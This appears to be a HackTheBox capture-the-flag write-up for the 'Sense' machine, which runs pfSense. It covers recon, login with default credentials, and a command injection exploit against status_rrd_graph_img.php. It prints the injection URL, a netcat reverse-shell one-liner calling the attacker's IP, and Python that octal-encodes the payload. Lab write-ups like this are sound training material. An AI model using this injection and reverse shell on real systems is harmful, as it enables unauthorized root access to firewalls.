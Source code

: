 # Sense [HTB](https://app.hackthebox.com/machines/111)
![sense-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/sense-01.png)

## Recon 

After adding the target to my `/etc/hosts` file, I fire off an `nmap` scan:

```bash
nmap -sC -sV -A -p- sense.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/nmap-res-02.png)

We have the following:

+ A lighthttpd V1.4.35 HTTP server on ports 80 & 443. 

The target runs a single HTTP service with a lighthttpd server. Port 80 immediately redirects us to an SSL connection, let's have a look. 


## HTTP Port 443

I open up my browser and type `https://senhse.htb`, my browser warns me about the validity of the certificate of this site, I accept the risks and ask to load the page anyway:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/site-03.png)

The site references [DNS rebinding attacks](https://en.wikipedia.org/wiki/DNS_rebinding). These attacks usually involve a victim user clicking on a link, or a hidden HTML tag that leads to a domain controlled by the attacker's DNS server. 

The DNS rebinding attack leverages  the control the attacker has over the DNS to bypass the [Same-Origin Policy](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjh3dqTu8qBAxVsh_0HHTVpDkAQFnoECBUQAw&url=https%3A%2F%2Fweb.dev%2Fsame-origin-policy%2F&usg=AOvVaw3oH90bDU0AARo5NNkbh5nZ&opi=89978449) imposed by modern web browsers. This is possible because the browser determines the origin of the request based on the `Hostname` parameter and general URI scheme, but because hostnames can point to any arbitrary IP, this can be leveraged to bypass the `Same-Origin Policy` to make malicious requests to other resources on the victim user's behalf.

Some examples of attack vectors can be internal network components in an enterprise enviorement, internal resources on the server itself, other sites altogether, like banking sites, etc. Here is the general scheme of the attack:

![dns-rebind-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/dns-rebind-04.png)

Palo Alto has a nice [artical](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwiVt9rOvsqBAxUkhv0HHUP2AQ4QFnoECBAQAQ&url=https%3A%2F%2Funit42.paloaltonetworks.com%2Fdns-rebinding%2F&usg=AOvVaw1ZW27d0rhTxtJWKsFNLpUl&opi=89978449) about DNS rebinding attacks if you want to read more about it.


To avoid potential DNS rebinding attacks, the server replied with the above error. Rejecting requests with hostnames would eliminate any potential for DNS rebinding attacks, though it seems rather extreme. 

I dont see much potential in pulling a DNS rebinding attack againts this target. Let's open the web server through an IP address instead:

![login-req-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/login-05.png)

This is an admin login portal for the [pfSense](https://www.pfsense.org/) open source firewall. At first I tried default credentials, when that failed I tried to brute force the login page. I wrote a simple script in Python to bypass the anti-csrf and session cookies which did work, but I've noticed that I get blocked after about 15 failed attempts. 

So instead, I decided to run a directory and file scan using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -u https://10.129.103.206/FUZZ -e .php,.cgi,.js,.html,.txt,.json,.xml
```

This yields quite a lot of results, but the most interesting one to me is this:

![users-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/users.png)

If we open this file we can see the following:

![file-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/file-07.png)

This gives us a username. The password is set to be "company default", if we search online for default pfSense credenitlas we will find that the default password for most if not all appliances is `pfsesne`. 

After a few failed login attempts I found that the username is misspelled, and the credentials that do work are `rohit : pfsense`. This gets us inside the pfsense admin panel:

![admin-panel-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/admin-panel-08.png)

We can see that the version is 2.1.3 for a 64-bit FreeBSD machine. Let's search for exploits with:

```bash
searchsploit pfsense 2.1.3
```

![searchsploit-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/searchsploit-09.png)

Command Injection sounds good. After a bit of searching online I found that there is also a metasploit version available, so I decided to review the source code to try and pull this off manually:

![source-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/source-10.png)

Two things are going on here. First the actual payload is encoded to octal values. Next, the actual exploitation is executed via a Get request to the following URL:

```bash
/status_rrd_graph_img.php?database=-throughput.rrd&graph=file|printf%20%27<PAYLOAD>%27|sh|echo
```

We need to request this page after we have logged in to the pfsense admin panel and we have an active session, which we do have. So all we need is a reverse shell payload for a BSD platform, encode it to octal value, and send the GET request. 

The payload I got [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).

Next, we need to encode it, we can do this with the following python code:

```python
command = """
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.69 443 >/tmp/f
"""

payload = ''
for char in command:
    payload += ('\\' + oct(ord(char)).lstrip('0o'))

print(payload)
``` 

Finally, we need to URL encode the `|` characters found in the URL to `%7c`. All in all my final request to the server looks like this:

![req-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/req-11.png)

This gets me a shell as root:

![root-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/root-12.png)

